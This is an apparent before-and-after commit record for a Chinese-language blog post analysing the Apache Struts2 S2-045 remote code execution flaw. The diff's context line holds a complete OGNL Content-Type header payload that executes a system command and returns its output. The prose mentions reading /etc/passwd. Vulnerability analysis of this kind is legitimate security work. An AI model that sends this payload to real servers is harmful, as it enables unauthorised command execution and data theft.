

Before and after one commit to Urahara3389/Urahara3389.github.io, a Jekyll site: the page built from _posts/2017-03-08-Apache Struts2 remote code execution (s2-045) .markdown, in a window 1280 px wide and 900 px high, scrolled down 8436 px. Shown: the whole window, without its empty margins (233-1003 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
s2-045-update

````diff
--- a/_posts/2017-03-08-Apache Struts2 remote code execution (s2-045) .markdown
+++ b/_posts/2017-03-08-Apache Struts2 remote code execution (s2-045) .markdown
@@ -406,7 +406,7 @@
 header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
 ```
 
-通过#nike='multipart/form-data'语句使得后台判断语句content_type.contains("multipart/form-data")判断结果为true，以便攻击代码得以传入。同时将攻击代码'cat /etc/passwd'赋值给#cmd参数。接下来通过(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})来判断目标主机的操作系统类型，并选择性的进行指令赋值，最终，通过如下图代码，将攻击指令执行
+通过#nike='multipart/form-data'语句使得后台判断语句content_type.contains("multipart/form-data")判断结果为true，以便攻击代码得以传入。同时将攻击代码'cat /etc/passwd'赋值给#cmd参数。接下来通过(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})来判断目标主机的操作系统类型，并选择性的进行指令赋值，最终将攻击指令执行
 
 **批量检测POC执行效果**
 
````
